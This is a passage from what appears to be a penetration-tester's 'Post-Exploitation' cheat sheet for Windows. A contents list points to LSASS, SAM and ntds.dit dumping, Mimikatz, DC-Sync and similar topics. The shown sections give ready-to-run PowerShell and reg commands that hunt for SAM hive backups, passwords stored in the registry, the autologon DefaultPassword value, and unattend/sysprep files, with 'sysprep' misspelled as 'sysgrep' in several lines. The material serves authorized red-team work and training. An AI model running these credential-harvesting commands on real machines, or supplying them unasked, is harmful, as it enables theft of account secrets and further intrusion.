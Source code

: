 # Post-Exploitation

* [General](#General)
* [Find credentials in files](#Find-credentials-in-files)
* [Dumping LSASS](#Dumping-LSASS)
* [Dumping SAM](#Dumping-SAM)
* [Dumping ntds.dit](#Dumping-ntds.dit)
* [Hashcat](#Hashcat)
* [Mimikatz](#Mimikatz)
* [Rubeus](#Rubeus)
* [DC-Sync](#DC-Sync)
* [Shadowcopy](#Shadowcopy)
* [Token manipulation](#Token-manipulation)
* [DPAPI](#DPAPI)
* [KeePass](#KeePass)
* [Putty ppk file](#Putty-ppk-file)
* [Network Sniffing](#Network-Sniffing)
* [Virtual Machines](#Virtual-Machines)

## General
- Run seatbelt from [Host Reconnaissance](Host-Reconnaissance.md)

## Find credentials in files
#### Look for SAM files
```
Get-ChildItem -path C:\Windows\Repair\* -include *.SAM*,*.SYSTEM* -force -Recurse 
Get-ChildItem -path C:\Windows\System32\config\RegBack\*  -include *.SAM*,*.SYSTEM* -force -Recurse
Get-ChildItem -path C:\* -include *.SAM*,*.SYSTEM* -force -Recurse 
```

#### Check registery for passwords
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Find autologon credentials registery key
```
Get-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" -Name "DefaultPassword"
```

#### Look for unattend and sysprep files
```
Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*
Get-ChildItem -path C:\Windows\Panther\* -Recurse -Include *Unattend.xml* 
Get-ChildItem -path C:\Windows\system32\* -Recurse -Include *sysgrep.xml*, *sysgrep.inf* 
Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*, *sysgrep.xml*, *sysgrep.inf* 
```
